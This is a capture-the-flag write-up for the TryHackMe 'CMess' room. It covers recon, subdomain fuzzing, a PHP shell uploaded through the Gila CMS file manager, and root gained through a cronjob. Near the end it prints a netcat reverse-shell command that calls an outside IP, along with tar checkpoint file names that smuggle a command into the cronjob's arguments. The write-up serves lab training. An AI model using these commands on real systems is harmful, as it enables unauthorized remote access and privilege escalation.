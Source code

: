 # TryHackMe-Cmess

First of all add the IP that is given to in the `/etc/hosts` with the domain cmess.thm

<img src="https://imgur.com/Z9KwSFr.png"/>


## NMAP

```
Nmap scan report for cmess.thm (10.10.212.255)
Host is up (0.42s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Gila CMS
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.41 seconds

```

We have port 80 and 22 open so let's see whats on the web page


## PORT 80

<img src="https://imgur.com/L0gaVXD.png"/>

It is a CMS and it's a simple page nothing's on it.Nmap scan showed us that there are 3 entries in `robots.txt` so lets see what we can find

<img src="https://imgur.com/VURG6Bg.png"/>

So there are three entries there

<img src="https://imgur.com/e1XMeny.png"/>

But we don't have permissions to access that page, so the only option we have right now is to fuzz for directories

<img src="https://imgur.com/Uf6RYwl.png"/>

Running `gobuster` didn't help us a much we get only a login page which was useful but as we don't have the creds for now we can't do anything with it. Looking at the hint given in the room it says "Have you tried fuzzing subdomains ?".So I decided to go for `wfuzz` which is really an awesome tool if you want to fuzz for parameters and subdomains.

So before using tools and fuzz for subdomain what does a subdomain look like ?.

A subdomain is a part of a domain that you own for example in this case we have domain `http://cmess.thm` now it's subdomain would look like `http://blog.cmess.thm` or `http://support.cmess.thm` so this will be our pattern for subdomain. Now let's start fuzzing for subdomain


<img src="https://imgur.com/zhD02VL.png"/>

Here I am using `seclists` which has a collection of worldists.It's giving us a bunch of subdomain with same lenght of `107l` we don't want that so let's remove it with `--hl 107` which means hiding lenght with 107 , we can also this thing with characters,words and status codes so it's really handy to know it


<img src="https://imgur.com/hYfOtT7.png"/>
Now running it with filters we found a subdomain perfect.

<img src="https://imgur.com/ALlyyjS.png"/>

Visting that we will find a conversation with a user and support team which will give us a password to login to that page we found on `Gila CMS`.

<img src="https://imgur.com/YFB4fxc.png"/>

With that username and password we are logged in also it tells us about the version which it's using `CMS version 1.10.9`.

After we have logged in go to `Content` > `File Manager`

<img src="https://imgur.com/nih8WBa.png"/>

And upload you php shell 

<img src="https://imgur.com/Y4NAyUK.png"/>

<img src="https://imgur.com/Nn8y4WJ.png"/>

Access that file with the domain name

<img src="https://imgur.com/d7qUTsB.png"/>

We will see a cronjob running on the system

<img src="https://imgur.com/7Jn0kzh.png"/>

This is creating an archive of the `backup` folder which is in `andre`'s directory. So we can't really do unless we are in `andre`'s directory so let's run linpeas to find anything juicy to do that first transfer `linpeas` to target box via netcat or python http server


<img src="https://imgur.com/gZ3GnBf.png"/>

On running linpeas I found a password file

<img src="https://imgur.com/5ZyuTv3.png"/>

<img src="https://imgur.com/R5xN0U7.png"/>

After logging and having a user flag navigate to `/home/andre/backup` and these commands and then wait for a minute for a cronjob to trigger
```
echo "mkfifo /tmp/lhennp; nc 10.2.54.209 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
<img src="https://imgur.com/o1L6Bzw.png"/>


And we are root !!!
